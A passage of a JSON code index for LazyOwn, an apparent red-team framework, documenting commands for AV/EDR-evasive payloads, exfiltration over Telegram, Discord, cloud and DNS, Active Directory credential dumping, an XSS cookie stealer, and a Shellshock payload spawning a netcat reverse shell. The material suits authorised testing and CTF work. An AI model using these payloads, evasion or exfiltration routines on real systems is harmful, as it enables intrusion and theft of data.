Source to import from (case, stix, lan, all)\n    --case-id <id>  Import a specific case by ID\n    --no-scope      Do not add discovered assets to payload.json scope\n    --no-db         Do not add discovered assets to lazyown.db\n    --preview       Preview entities only, do not import\n\nExamples:\n    estorides_import                          # import all\n    estorides_import --from stix              # from STIX bundles\n    estorides_import --from case --case-id a1b2c3d4\n    estorides_import --preview                # preview only", "kind": "method", "line": 189, "name": "do_estorides_import", "signature": "def do_estorides_import(self, line)"}, {"doc": "Show a preview of entities grouped by type.", "kind": "method", "line": 319, "name": "_preview_entities", "signature": "def _preview_entities(self, entities)"}, {"doc": "Run the bidirectional Estorides <-> LazyOwn feedback loop.\n\nEach iteration:\n  1. Extract seeds from LazyOwn (world model, scope, DB, hosts files)\n  2. Feed each seed into Estorides discover for passive OSINT\n  3. Import new entities back into LazyOwn DB + scope\n  4. New entities become seeds for the next iteration\n  5. Runs lazynmap / nuclei if operator opts in on new targets\n\nThe loop converges when no new assets are discovered or max\niterations is reached.\n\nUsage:\n    estorides_loop [--iter <n>] [--depth <n>] [--auto-scan]\n\nOptions:\n    --iter <n>       Max iterations (default: 3)\n    --depth <n>      Discovery depth per seed (default: 2)\n    --auto-scan      Automatically run lazynmap on new IPs discovered\n                     by Estorides (requires active scanning permission)\n\nExamples:\n    estorides_loop                    # 3 iterations, passive only\n    estorides_loop --iter 5 --depth 3 # 5 iterations, deeper discovery\n    estorides_loop --auto-scan        # auto-scan new IPs from OSINT", "kind": "method", "line": 337, "name": "do_estorides_loop", "signature": "def do_estorides_loop(self, line)"}, {"doc": "Show the combined active + passive attack surface.\n\nAggregates targets from:\n  - LazyOwn database (lazyown.db hosts table)\n  - LazyOwn scope (payload.json)\n  - LazyOwn world model (sessions/world_model.json)\n  - Estorides case store (estorides_cases.sqlite)\n  - Estorides STIX bundles\n\nUsage:\n    estorides_surface [--json] [--export <path>]\n\nOptions:\n    --json          Output as JSON\n    --export <path> Export combined surface to JSON file\n\nExamples:\n    estorides_surface\n    estorides_surface --json\n    estorides_surface --export sessions/combined_surface.json", "kind": "method", "line": 441, "name": "do_estorides_surface", "signature": "def do_estorides_surface(self, line)"}]}, {"doc": "Auto-Adaptive Payload command set.  Detects target defenses (AV/EDR), selects optimal bypass techniques, and generates evasive payloads with polymorphic shellcode mutation.", "id": "cli/commands/evasive_payload.py", "kind": "module", "label": "evasive_payload.py", "language": "py", "sha256": "06bd640c6dd1c476", "symbol_count": 13, "symbols": [{"doc": "Auto-adaptive payload generation with AV/EDR evasion.", "kind": "class", "line": 248, "name": "EvasivePayloadCommandSet", "signature": "class EvasivePayloadCommandSet(LazyOwnCommandSet)"}, {"doc": "Generate base shellcode with LHOST/LPORT patched.\n\nArgs:\n    lhost: Attacker IP address.\n    lport: Listening port.\n    target_os: Target operating system.\n    arch: Target architecture.\n\nReturns:\n    Raw shellcode bytes.", "kind": "function", "line": 586, "name": "_generate_shellcode", "signature": "def _generate_shellcode(lhost, lport, target_os, arch)"}, {"doc": "Apply evasion technique to shellcode.\n\nArgs:\n    shellcode: Raw shellcode bytes.\n    technique: Bypass technique name.\n    target_os: Target operating system.\n\nReturns:\n    Modified shellcode.", "kind": "function", "line": 615, "name": "_apply_bypass", "signature": "def _apply_bypass(shellcode, technique, target_os)"}, {"doc": "Format shellcode into the requested output format.\n\nArgs:\n    shellcode: Raw shellcode bytes.\n    fmt: Output format name.\n    lhost: Attacker IP.\n    lport: Listening port.\n\nReturns:\n    Formatted payload string or raw bytes.", "kind": "function", "line": 665, "name": "_format_payload", "signature": "def _format_payload(shellcode, fmt, lhost, lport)"}, {"doc": "Automatically select the best bypass technique.\n\nArgs:\n    target_os: Target operating system.\n\nReturns:\n    Technique name.", "kind": "function", "line": 717, "name": "_auto_select_bypass", "signature": "def _auto_select_bypass(target_os)"}, {"doc": "Return the file extension for a given format.", "kind": "function", "line": 731, "name": "_format_ext", "signature": "def _format_ext(fmt)"}, {"doc": "Extract a ``--flag <value>`` pair from a list of arguments.", "kind": "function", "line": 736, "name": "_extract_flag", "signature": "def _extract_flag(args, flag)"}, {"doc": "Generate an evasive payload with automatic AV/EDR bypass.\n\nUsage: evasive_payload [--lhost <ip>] [--lport <port>] [--os <windows|linux>] [--arch <x64|x86>] [--format <raw|hex|c|ps1|py|vba>] [--bypass <technique>]\n\nAuto-selects the optimal bypass technique based on target OS.\nSupports: syscall, unhook, process_inject, ppid_spoof, dll_sideload,\nreflective_dll, early_bird, thread_hijack, mutation, encryption.", "kind": "method", "line": 255, "name": "do_evasive_payload", "signature": "def do_evasive_payload(self, line)"}, {"doc": "Apply polymorphic mutation to shellcode for signature evasion.\n\nUsage: mutate_shellcode <shellcode_file> [--iterations <n>] [--output <path>]\n\nApplies N rounds of: XOR re-encoding, NOP sled insertion,\nregister randomization, and instruction reordering.", "kind": "method", "line": 307, "name": "do_mutate_shellcode", "signature": "def do_mutate_shellcode(self, line)"}, {"doc": "Generate commands to detect EDR/AV on the target.\n\nUsage: detect_edr [--target <ip>] [--user <username>] [--password <password>]\n\nQueries Windows for installed AV/EDR products via WMI, registry,\nand process enumeration.", "kind": "method", "line": 360, "name": "do_detect_edr", "signature": "def do_detect_edr(self, line)"}, {"doc": "Generate detection-evading payloads with multiple obfuscation strategies.\n\nUsage:\n    evasive ps <raw_payload>   Obfuscate a PowerShell payload (AMSI bypass + encoding)\n    evasive js <raw_payload>   Obfuscate a JavaScript payload\n    evasive vba <raw_payload>  Obfuscate a VBA macro payload\n    evasive rev <rhost> <rport> [python|bash|node]  Evasive reverse shell\n    evasive sc <b64_shellcode> [early_bird|virtualalloc]  Shellcode loader\n    evasive lolbas <payload_url> [technique]  LOLBAS execution\n    evasive poly <command> [iterations]  Polymorphic command mutation\n    evasive tech                 List all evasion techniques", "kind": "method", "line": 415, "name": "do_evasive", "signature": "def do_evasive(self, line)"}, {"doc": "Print usage instructions for the generated payload.", "kind": "method", "line": 514, "name": "_print_usage", "signature": "def _print_usage(self, fmt, path, lhost, lport)"}, {"doc": "Generate and manage C2 evasion profiles.\n\nUsage:\n    evasion generate [windows|linux|mac]   Generate a new evasion profile\n    evasion rotate                          Rotate to a fresh profile\n    evasion status                          Show active profile\n    evasion history                         Show profile history", "kind": "method", "line": 533, "name": "do_evasion", "signature": "def do_evasion(self, line)"}]}, {"doc": "Data Exfiltration command set.  Covers data-out operations: XOR file encrypt/decrypt, Evil-WinRM authentication, Active Directory dumpers (secretsdump, GetUserSPNs, GetADUsers, gMSADumper, dploot, samdump2, reg.py, getnthash.py, adgetpass), Git tree dumping, rsync deployment, infinitestorage video evidence, Gofile uploads, cloud exfiltration (S3, GCS, Telegram, Discord), DNS/ICMP covert channels, staged multi-channel exfil, and the C2 implant download helpers.", "id": "cli/commands/exfiltration.py", "kind": "module", "label": "exfiltration.py", "language": "py", "sha256": "7f70273ce029e221", "symbol_count": 37, "symbols": [{"doc": "Return the absolute ``sessions/`` directory under ``base_path``.", "kind": "function", "line": 142, "name": "_sessions_path", "signature": "def _sessions_path(base_path)"}, {"doc": "Return the first ``username:password`` pair from ``credentials_file``.\n\nArgs:\n    credentials_file: Path to a colon-separated ``credentials.txt``.\n\nReturns:\n    A tuple ``(username, password)`` or ``None`` when the file is\n    empty or malformed.", "kind": "function", "line": 147, "name": "_read_first_credential", "signature": "def _read_first_credential(credentials_file)"}, {"doc": "Extract a ``--flag <value>`` pair from a list of arguments.\n\nArgs:\n    args: Token list from ``shlex.split(line)``.\n    flag: The flag name including leading dashes.\n\nReturns:\n    The flag value or ``None`` if the flag is not present.", "kind": "function", "line": 170, "name": "_extract_flag", "signature": "def _extract_flag(args, flag)"}, {"doc": "Split a file into fixed-size chunks in ``output_dir``.\n\nArgs:\n    file_path: Source file path.\n    output_dir: Directory to write chunk files.\n    chunk_size: Maximum bytes per chunk.", "kind": "function", "line": 187, "name": "_split_file", "signature": "def _split_file(file_path, output_dir, chunk_size)"}, {"doc": "Send a file to a Telegram chat via the Bot API.\n\nArgs:\n    file_path: Local file to send.\n    bot_token: Telegram Bot API token.\n    chat_id: Target chat ID.\n    caption: File caption text.", "kind": "function", "line": 208, "name": "_send_telegram_file", "signature": "def _send_telegram_file(file_path, bot_token, chat_id, caption)"}, {"doc": "Send a file to a Discord channel via webhook.\n\nArgs:\n    file_path: Local file to send.\n    webhook_url: Discord webhook URL.\n    filename: Display name for the attachment.", "kind": "function", "line": 231, "name": "_send_discord_file", "signature": "def _send_discord_file(file_path, webhook_url, filename)"}, {"doc": "Upload a file to S3 using a manually-signed presigned URL.\n\nArgs:\n    file_path: Local file to upload.\n    bucket: S3 bucket name.\n    object_key: S3 object key.\n    access_key: AWS access key.\n    secret_key: AWS secret key.\n    region: AWS region name.", "kind": "function", "line": 251, "name": "_upload_s3_presigned", "signature": "def _upload_s3_presigned(file_path, bucket, object_key, access_key, secret_key, region)"}, {"doc": "Pending phase module for the Data Exfiltration commands.", "kind": "class", "line": 327, "name": "ExfiltrationCommandSet", "signature": "class ExfiltrationCommandSet(LazyOwnCommandSet)"}, {"kind": "function", "line": 296, "name": "_sign", "signature": "def _sign(key, msg)"}, {"doc": "Encrypt a file with XOR using a caller-supplied key.\n\nArgs:\n    line: Whitespace-separated ``<file_path> <key>``. Anything\n        else triggers a usage error.\n\nReturns:\n    None.", "kind": "method", "line": 334, "name": "do_encrypt", "signature": "def do_encrypt(self, line)"}, {"doc": "Decrypt an XOR-encrypted file using the matching key.\n\nArgs:\n    line: Whitespace-separated ``<file_path> <key>``. Anything\n        else triggers a usage error. The ``.enc`` suffix is\n        stripped from the output filename when present.\n\nReturns:\n    None.", "kind": "method", "line": 361, "name": "do_decrypt", "signature": "def do_decrypt(self, line)"}, {"doc": "Drive Evil-WinRM through password, hash or kerberos-only auth.\n\nModes:\n    ``pass`` reuses entries from ``sessions/credentials*.txt``.\n    ``hash`` reads ``sessions/hash.txt`` for an NT hash and\n    prompts for a username (default ``Administrator``).\n    ``nopass`` connects to ``<subdomain>.<domain>`` without\n    credentials.\n\nArgs:\n    line: Sub-command starting with ``pass``, ``hash`` or\n        ``nopass``, optionally followed by counter / PowerShell\n        flags for ``pass``.\n\nReturns:\n    None.", "kind": "method", "line": 389, "name": "do_evilwinrm", "signature": "def do_evilwinrm(self, line)"}, {"doc": "Run impacket-secretsdump for SAM, credentials, or NTDS payloads.\n\nSub-commands:\n    ``sam``     parses local ``sessions/SAM`` + ``sessions/SYSTEM``\n    ``creds``   iterates ``sessions/credentials.txt`` pairs\n    ``system``  parses live ``ntds.dit`` + registry hives\n\nArgs:\n    line: Sub-command from the list above. Empty input prints\n        the usage error.\n\nReturns:\n    None.", "kind": "method", "line": 460, "name": "do_secretsdump", "signature": "def do_secretsdump(self, line)"}, {"doc": "Run impacket-GetUserSPNs to request roastable service tickets.\n\nArgs:\n    line: Optional username to use in place of the first entry\n        from ``sessions/credentials.txt``.\n\nReturns:\n    None.", "kind": "method", "line": 534, "name": "do_getuserspns", "signature": "def do_getuserspns(self, line)"}, {"doc": "Install ``git-dumper`` if missing and pull a remote ``.git`` tree.\n\nArgs:\n    line: Unused; an interactive prompt collects the repo URL.\n\nReturns:\n    None.", "kind": "method", "line": 568, "name": "do_gitdumper", "signature": "def do_gitdumper(self, line)"}, {"doc": "Encode the ``sessions/`` tree into a video file or decode one back.\n\nDefault invocation compresses ``sessions/`` to\n``sessions.zip`` and renders ``sessions/encoded_output.avi`` via\nthe infinitestorage helper. Pass ``decode`` to pick a video and\nrecover its original payload.\n\nArgs:\n    line: ``decode`` to enter decode mode; anything else encodes.\n\nReturns:\n    None.", "kind": "method", "line": 593, "name": "do_evidence", "signature": "def do_evidence(self, line)"}, {"doc": "Run impacket-GetADUsers to enumerate AD accounts on the DC.\n\nWhen ``sessions/credentials.txt`` is present the helper iterates\neach pair authenticated to ``rhost``. Otherwise it offers the\nlist of ``.txt`` files under ``sessions/`` so the operator can\nselect a username list and brute-force kerberos pre-auth.\n\nArgs:\n    line: Unused.\n\nReturns:\n    None.", "kind": "method", "line": 673, "name": "do_getadusers", "signature": "def do_getadusers(self, line)"}, {"doc": "Generate a PowerShell script to extract Azure AD Connect credentials.\n\nRenders the standard ``mcrypt.dll`` key-manager script with\noperator-provided GUIDs and SQL identifiers, writing it to\n``sessions/adconnect.ps1`` for upload to the target.\n\nArgs:\n    line: Space-separated ``server database keyset_id instance_id entropy``.\n        Each missing positional triggers an interactive prompt.\n\nReturns:\n    None.", "kind": "method", "line": 734, "name": "do_adgetpass", "signature": "def do_adgetpass(self, line)"}, {"doc": "Run samdump2 against ``sessions/SYSTEM`` and ``sessions/SAM``.\n\nArgs:\n    line: Unused.\n\nReturns:\n    None.", "kind": "method", "line": 799, "name": "do_samdump2", "signature": "def do_samdump2(self, line)"}, {"doc": "Query a remote registry hive with impacket-reg.py over hash auth.\n\nArgs:\n    line: Unused.\n\nReturns:\n    None.", "kind": "method", "line": 824, "name": "do_reg_py", "signature": "def do_reg_py(self, line)"}, {"doc": "Extract a zip archive located under ``sessions/``.\n\nArgs:\n    line: Optional zip filename. Empty input picks the first\n        ``*.zip`` discovered via :func:`get_users_dic`.\n\nReturns:\n    None.", "kind": "method", "line": 851, "name": "do_unzip", "signature": "def do_unzip(self, line)"}, {"doc": "Recover the NT hash from a Kerberos U2U TGS via PKINITtools.\n\nArgs:\n    line: Unused; the helper iterates ``sessions/credentials.txt``.\n\nReturns:\n    None.", "kind": "method", "line": 873, "name": "do_getnthash_py", "signature": "def do_getnthash_py(self, line)"}, {"doc": "Upload a file from ``sessions/`` to Gofile via its HTTP API.\n\nThe helper enumerates non-excluded files under ``sessions/``, asks\nthe operator to pick one, posts it to ``store1.gofile.io``, and\nprints the resulting metadata.\n\nArgs:\n    line: Unused.\n\nReturns:\n    None.", "kind": "method", "line": 905, "name": "do_upload_gofile", "signature": "def do_upload_gofile(self, line)"}, {"doc": "Push the ``sessions/`` tree to ``rhost`` over SCP with sshpass.\n\nArgs:\n    line: Optional alternate source path; defaults to\n        ``<self.path>/sessions``.\n\nReturns:\n    None.", "kind": "method", "line": 967, "name": "do_rsync", "signature": "def do_rsync(self, line)"}, {"doc": "Run gMSADumper to read gMSA password blobs visible to the user.\n\nArgs:\n    line: Unused.\n\nReturns:\n    None.", "kind": "method", "line": 1004, "name": "do_gmsadumper", "signature": "def do_gmsadumper(self, line)"}, {"doc": "Run dploot to loot DPAPI-protected secrets.\n\nActions: ``backupkey``, ``blob``, ``browser``, ``certificates``,\n``credentials``, ``machinecertificates``, ``machinecredentials``,\n``machinemasterkeys``, ``machinevaults``, ``masterkeys``,\n``mobaxterm``, ``rdg``, ``sccm``, ``vaults``, ``wam``, ``wifi``.\n\nArgs:\n    line: First token is the action; missing input prompts for it.\n\nReturns:\n    None.", "kind": "method", "line": 1043, "name": "do_dploot", "signature": "def do_dploot(self, line)"}, {"doc": "Return the tail arguments matching a dploot action.\n\nArgs:\n    action: dploot subcommand name selected by the operator.\n    domain: Target Active Directory domain (used for ``.mkf``).\n\nReturns:\n    The argument suffix to append to the dploot command, or\n    ``None`` when the action is unknown (and an error was\n    already printed).", "kind": "method", "line": 1089, "name": "_resolve_dploot_args", "signature": "def _resolve_dploot_args(self, action, domain)"}, {"doc": "Download a file from the C2 implant upload queue.\n\nPosts an ``upload:<file_name>`` command to the implant identified\nby ``clientid`` and writes the response body under\n``sessions/temp_uploads/<file_name>``.\n\nArgs:\n    file_name: Remote filename relative to the implant's working\n        directory.\n    clientid: Implant identifier. Empty input prompts the\n        operator with the current ``c2_clientid`` as default.\n\nReturns:\n    None.", "kind": "method", "line": 1125, "name": "download_file_from_c2", "signature": "def download_file_from_c2(self, file_name, clientid)"}, {"doc": "Download a file from the C2 implant via the upload command.\n\nArgs:\n    line: Remote path of the file to download. An empty input\n        returns an error matching the live ``LazyOwnShell``\n        behaviour.\n\nReturns:\n    None.", "kind": "method", "line": 1164, "name": "do_download_c2", "signature": "def do_download_c2(self, line)"}, {"doc": "Upload a file to an AWS S3 bucket.\n\nUsage: exfil_s3 <file_path> --bucket <name> --key <access_key> --secret <secret_key> [--region <region>] [--prefix <prefix>]\n\nRequires boto3 to be installed. Falls back to a presigned-URL\napproach using requests when boto3 is not available.", "kind": "method", "line": 1181, "name": "do_exfil_s3", "signature": "def do_exfil_s3(self, line)"}, {"doc": "Exfiltrate a file via Telegram Bot API.\n\nUsage: exfil_telegram <file_path> --token <bot_token> --chat <chat_id>\n\nThe file is sent as a document to the specified Telegram chat.\nFiles larger than 50MB are automatically split into chunks.", "kind": "method", "line": 1226, "name": "do_exfil_telegram", "signature": "def do_exfil_telegram(self, line)"}, {"doc": "Exfiltrate a file via Discord webhook.\n\nUsage: exfil_discord <file_path> --webhook <webhook_url>\n\nFiles larger than 25MB are automatically split into chunks.", "kind": "method", "line": 1271, "name": "do_exfil_discord", "signature": "def do_exfil_discord(self, line)"}, {"doc": "Upload a file to Google Cloud Storage.\n\nUsage: exfil_gcs <file_path> --bucket <name> --key <access_key_json_path>\n\nThe --key flag expects the path to a GCP service account JSON file.", "kind": "method", "line": 1314, "name": "do_exfil_gcs", "signature": "def do_exfil_gcs(self, line)"}, {"doc": "Exfiltrate data via DNS tunneling.\n\nUsage: exfil_dns <file_path> --domain <dns_domain> [--server <dns_server>]\n\nEncodes file content as Base32 hex and sends via DNS A-record queries.\nRequires a cooperating DNS server that logs queries.", "kind": "method", "line": 1356, "name": "do_exfil_dns", "signature": "def do_exfil_dns(self, line)"}, {"doc": "Exfiltrate a file via HTTP POST to a controlled server.\n\nUsage: exfil_http <file_path> --url <upload_url> [--param <field_name>] [--chunked] [--ssl false]\n\nPosts the file as multipart form data. With --chunked, splits and\nsends in chunks with sequence headers for reassembly.", "kind": "method", "line": 1415, "name": "do_exfil_http", "signature": "def do_exfil_http(self, line)"}, {"doc": "Auto-detect flags and sensitive files, then exfiltrate.\n\nUsage: exfil_auto --method <telegram|discord|s3|gcs|http|gofile> [method flags...]\n\nScans common flag locations (root.txt, user.txt, /home/*/user.txt,\n/root/root.txt, C:\\Users\\*\\Desktop\\*.txt) and exfiltrates them.\nSupports all exfil_* --flags for the selected method.", "kind": "method", "line": 1485, "name": "do_exfil_auto", "signature": "def do_exfil_auto(self, line)"}, {"doc": "Stage data for exfiltration: compress, encrypt, and split.\n\nUsage: stage <file_or_directory> [--encrypt <key>] [--split <size_mb>] [--output <dir>]\n\nCreates a staged package: gzip compress -> optional XOR encrypt -> split into chunks.\nOutputs a manifest.json with reassembly instructions.", "kind": "method", "line": 1543, "name": "do_stage", "signature": "def do_stage(self, line)"}]}, {"doc": "Exploitation command set (pending activation).  Commands migrated from ``lazyown.py`` that belong to the exploitation phase (category ``03. Exploitation``). Inherits from :class:`PendingCommandSet` because the originals still live in ``lazyown.py``. Once the originals are deleted, switch the base to :class:`LazyOwnCommandSet`.", "id": "cli/commands/exploit.py", "kind": "module", "label": "exploit.py", "language": "py", "sha256": "abf172a0c6104306", "symbol_count": 11, "symbols": [{"doc": "Exploitation phase commands.\n\nStatus: pending — originals still in ``lazyown.py``.", "kind": "class", "line": 29, "name": "ExploitCommandSet", "signature": "class ExploitCommandSet(LazyOwnCommandSet)"}, {"doc": "Runs SQLMap against the target URL for SQL injection testing.\n\nUsage:\n    sqlmap\n\n:param line: Optional extra arguments for sqlmap.\n:returns: None", "kind": "method", "line": 39, "name": "do_sqlmap", "signature": "def do_sqlmap(self, line)"}, {"doc": "Executes the LazyPwn automated exploitation script.", "kind": "method", "line": 64, "name": "do_lazypwn", "signature": "def do_lazypwn(self, line)"}, {"doc": "Copies a reverse shell one-liner to the clipboard.\n\nUses the lhost and lport from the payload configuration.\n:returns: None", "kind": "method", "line": 69, "name": "do_rev", "signature": "def do_rev(self, line)"}, {"doc": "Runs commix for command injection testing.\n\n:param line: Target URL or extra arguments.\n:returns: None", "kind": "method", "line": 86, "name": "do_commix", "signature": "def do_commix(self, line)"}, {"doc": "Downloads and sets up an exploit, optionally serving via HTTP.\n\n:param line: Exploit search term or download URL.\n:returns: None", "kind": "method", "line": 105, "name": "do_download_exploit", "signature": "def do_download_exploit(self, line)"}, {"doc": "Generates an XSS payload that steals cookies via an image tag.\n\n:param line: URL for the cookie-stealing endpoint.\n:returns: None", "kind": "method", "line": 126, "name": "do_img2cookie", "signature": "def do_img2cookie(self, line)"}, {"doc": "Copies LFI php-wrapper payloads to the clipboard.\n\n:param line: Optional custom arguments.\n:returns: None", "kind": "method", "line": 150, "name": "do_wrapper", "signature": "def do_wrapper(self, line)"}, {"doc": "Runs the Kusanagi payload generator.\n\n:param line: Arguments to pass to kusanagi.\n:returns: None", "kind": "method", "line": 168, "name": "do_kusa", "signature": "def do_kusa(self, line)"}, {"doc": "Runs Impacket ticketer for golden/silver ticket creation.\n\n:param line: Arguments to pass to ticketer.\n:returns: None", "kind": "method", "line": 178, "name": "do_ticketer", "signature": "def do_ticketer(self, line)"}, {"doc": "Starts a simple HTTP server on the configured port to serve payloads.\n\n:param line: Optional custom port.\n:returns: None", "kind": "method", "line": 192, "name": "do_www", "signature": "def do_www(self, line)"}]}, {"doc": "exploit commands migrated from lazyown.py.  Auto-generated by scripts/migrate_lazyown.py.", "id": "cli/commands/exploit_migrated.py", "kind": "module", "label": "exploit_migrated.py", "language": "py", "sha256": "3abbd078094136ab", "symbol_count": 52, "symbols": [{"kind": "class", "line": 38, "name": "ExploitMigratedCommandSet", "signature": "class ExploitMigratedCommandSet(LazyOwnCommandSet)"}, {"doc": "Copies a file from the ExploitDB directory to the sessions directory.\n\n1. Retrieves the path to the ExploitDB directory and the target file from the `line` parameter.\n2. Copies the specified file from the ExploitDB directory to the `sessions` directory in the current working directory.\n\n:param line: The relative path to the file within the ExploitDB directory. For example, `java/remote/51884.py`.\n:param exploitdb: The path to the ExploitDB directory. This must be assign in advance or provided directly.\n\n:returns: None\n\nManual execution:\nTo manually copy files, use the following syntax:\n    cp <exploitdb_path><file_path> <destination_path>\n\nReplace `<exploitdb_path>` with the path to your ExploitDB directory, `<file_path>` with the relative path to the file, and `<destination_path>` with the path where you want to copy the file.\n\nFor example:\n    cp /usr/share/exploitdb/exploits/java/remote/51884.py /path/to/sessions/", "kind": "method", "line": 43, "name": "do_cp", "signature": "def do_cp(self, line)"}, {"doc": "Creates a `cookie.txt` file in the `sessions` directory with the specified cookie value.\n\nThis function performs the following actions:\n1. Extracts the cookie value from the provided input line using a regular expression.\n2. Writes the extracted cookie value to `sessions/cookie.txt`.\n\nUsage:\n    createcookie cookie=user_data=valor_base64\n\n:param line: The input line containing the cookie value in the format `cookie=value`.\n:type line: str\n:returns: None\n\nManual execution:\n1. Creates or overwrites the file `sessions/cookie.txt` with the extracted cookie value.\n\nDependencies:\n- `sessions/cookie.txt` will be created in the `sessions` directory.\n\nExample:\n    createcookie cookie=user_data=valor_base64\n\nNote:\n    - Ensure the input format is correct: `cookie=value`.\n    - The cookie value should be properly encoded and formatted as needed.", "kind": "method", "line": 84, "name": "do_createcookie", "signature": "def do_createcookie(self, line)"}, {"doc": "Copies a Python reverse shell command to the clipboard.\n\nThis function generates a Python command that uses the `pty` module to spawn a new shell and copies it to the clipboard. This is typically used for creating a TTY shell in a reverse shell situation.\n\nUsage:\n    py3ttyup\n\n:param line: This parameter is not used in the function.\n:type line: str\n:returns: None\n\nManual execution:\n1. The function creates a Python command with `pty.spawn` to open a shell.\n2. The command is copied to the clipboard using `xclip`.\n3. A message is printed to inform the user that the command has been copied.\n\nDependencies:\n- The script uses `xclip` to copy the command to the clipboard.\n\nExample:\n    py3ttyup\n    # This will copy the Python command `python3 -c 'import pty; pty.spawn(\"/bin/bash\")'` to the clipboard.\n\nNote:\n    This command is often used in scenarios where you need a more interactive shell from a reverse shell connection.", "kind": "method", "line": 128, "name": "do_py3ttyup", "signature": "def do_py3ttyup(self, line)"}, {"doc": "Automates the execution of pwntomate tools on XML configuration files.\n\n1. Sets the directory for XML files to be processed:\n- Checks the `sessions` directory for XML files.\n\n2. For each XML file found:\n- Constructs and executes a command to run `pwntomate` with the XML file as input.\n- The command is executed using `subprocess.run`, and errors are handled if the command fails.\n\n3. After processing all XML files:\n- Prints a message indicating that the target has been pwntomated.\n\n:param line: This parameter is not used in the function.\n:type line: str\n:returns: None\n\nManual execution:\nTo manually run these tasks, you would need to:\n- Ensure that XML configuration files are present in the `sessions` directory.\n- Run `pwntomate.py` manually on each XML file using a similar command format.\n\nNote: This function assumes that `pwntomate.py` is available in the current working directory and is executable with Python 3.", "kind": "method", "line": 164, "name": "do_pyautomate", "signature": "def do_pyautomate(self, line)"}, {"doc": "Creates a base64 encoded payload specifically for Windows to execute a PowerShell command or download a file using `self.params['lhost']`.\n\n1. Checks if `self.params['lhost']` is set:\n    - Displays an error message and exits if `self.params['lhost']` is not set.\n\n2. Checks if a file name or command is provided:\n    - Displays an error message and exits if no file name or command is provided.\n\n3. Prompts for the type of payload:\n    - '1': Constructs a PowerShell command to download and execute a `.ps1` script from `self.params['lhost']`.\n    - '2': Constructs a command to download a file using `wget`.\n\n4. Prompts for the output type:\n    - '1': Outputs the base64 encoded PowerShell command.\n    - '2': Outputs the base64 encoded command in an ASP format.\n    - '3': Outputs the base64 encoded command in a PHP format.\n\n5. Encodes the command:\n    - Converts the command to UTF-16LE encoding.\n    - Encodes the UTF-16LE encoded command to base64.\n    - Copies the final base64 command to the clipboard using `copy2clip`.\n\n:param line: The name of the `.ps1` file or the command to be executed.\n:type line: str\n:returns: None\n\nManual execution:\nTo manually use the payload:\n- Ensure `self.params['lhost']` is assign to the correct IP address.\n- Place the `.ps1` file in the `sessions` directory if using the 'ps1' payload type.\n- Use `copy2clip` to copy the generated base64 command to the clipboard.\n\nNote: Ensure `iconv`, `base64`, and `xclip` are installed and available on your system.", "kind": "method", "line": 215, "name": "do_winbase64payload", "signature": "def do_winbase64payload(self, line)"}, {"doc": "Create a Windows DLL file using MinGW-w64 or a Blazor DLL for Linux.\n\nThis function prompts the user to select between creating a 32-bit DLL,\na 64-bit DLL, or a Linux Blazor DLL. It first checks if MinGW-w64 is installed;\nif not, it attempts to install it. The user must provide a filename for the\nDLL, which will be created from the `sessions/rev.c` source file.\nThe function constructs the appropriate command to compile the DLL based on\nthe user's choice and executes it. If the user selects a 32-bit or 64-bit\ncompilation, the function also opens the `rev.c` file in a text editor for\nmodifications before compilation. For option 3, it executes a script to create\na Blazor DLL using the local host (self.params['lhost']) address to download the necessary payload.\n\nParameters:\n- line (str): The name of the DLL file to be created.\n            Must be provided by the user.\n\nUsage:\n- Choose \"1\" for 32-bit, \"2\" for 64-bit, or \"3\" for creating a Linux Blazor DLL.\n- Ensure that shellcode is created beforehand using\nthe `lazymsfvenom` or `venom` options 13 or 14\nto replace in `sessions/rev.c`.", "kind": "method", "line": 344, "name": "do_createdll", "signature": "def do_createdll(self, line)"}, {"doc": "Performs a web seo fingerprinting scan using `lazyseo.py`.\n\n1. Executes the `lazyseo.py` command to identify h1,h2,links,etc used by the target web application.\n\n:param line: This parameter is not used in the current implementation but could be used to pass additional options or arguments if needed.\n:param self.params['rhost']: The target web host to be scanned, specified in the `params` dictionary.\n\n:returns: None\n\nManual execution:\nTo manually perform web seo fingerprinting, use the following command:\n    lazyseo.py <target_host>\n\nReplace `<target_host>` with the URL or IP address of the web application you want to scan.\n\nFor example:\n    lazyseo.py example.com", "kind": "method", "line": 402, "name": "do_seo", "signature": "def do_seo(self, line)"}, {"doc": "Execute the PadBuster command for padding oracle attacks.\n\nThis function constructs and executes a PadBuster command to perform\na padding oracle attack on the specified URL. It requires the user\nto provide a URL, a cookie with a hash, a plaintext value to compare,\nand a specific byte position to attack.\n\nParameters:\n- line (str): The input line containing the cookie, plaintext, and byte\n            position. Expected format: 'cookie=<HASH> plaintext <byte_position>'.\n\nFunctionality:\n- The function first checks if a URL is assign in the parameters.\n- It then validates that the correct number of arguments is provided.\n- If the arguments are valid, it constructs the PadBuster command and executes it.\n- The command is also copied to the clipboard for convenience.\n\nUsage Example:\n- assign url http://target.com\n- padbuster auth=<HASH> user=admin 8", "kind": "method", "line": 437, "name": "do_padbuster", "signature": "def do_padbuster(self, line)"}, {"doc": "Automates the exploitation of the Cacti version 1.2.26 vulnerability\nusing the multi/http/cacti_package_import_rce exploit.\n\nThis function performs the following actions:\n1. Sets up a Metasploit handler to listen for reverse connections.\n2. Attempts to log in to the Cacti instance with provided credentials.\n3. Checks if the target is vulnerable and uploads the malicious payload.\n4. Triggers the payload to obtain a Meterpreter session.\n\nParameters:\nline (str): The command line input for the cacti exploit function,\n            though used directly in this implementation to set password.\n\nReturns:\nNone", "kind": "method", "line": 483, "name": "do_cacti_exploit", "signature": "def do_cacti_exploit(self, line)"}, {"doc": "Executes a Shellshock attack against a target.\n\nThis function constructs and sends a specially crafted HTTP request designed to exploit\nthe Shellshock vulnerability on a target server. The payload is embedded in the\n'User-Agent' header, and when executed, it will open a reverse shell connection to\nthe attacker's machine.\n\nParameters:\n- lport: Local port for the reverse shell connection, retrieved from self.params.\n- self.params['lhost']: Local host for the reverse shell connection, retrieved from self.params.\n\nThe function first validates the local host (self.params['lhost']) and local port (lport) using\ncheck_lhost() and check_lport(). If either validation fails, the function returns\nwithout proceeding.\n\nIf the validation passes, the payload is created using the format:\n'() { :; }; /bin/bash -c \"nc -v {self.params['rhost']} {lport} -e /bin/bash -i\"',\nwhere self.params['rhost'] is the remote target's IP address and lport is the specified local port.\n\nThe function then attempts to send a GET request to the target URL (args.target)\nwith the crafted payload in the 'User-Agent' header. The server's response is captured\nand printed using print_msg().\n\nIf any error occurs during the request, an error message is displayed using print_error().\n\nReturns:\nNone", "kind": "method", "line": 568, "name": "do_shellshock", "signature": "def do_shellshock(self, line)"}, {"doc": "This function generates a PowerShell script that retrieves reverse shell over 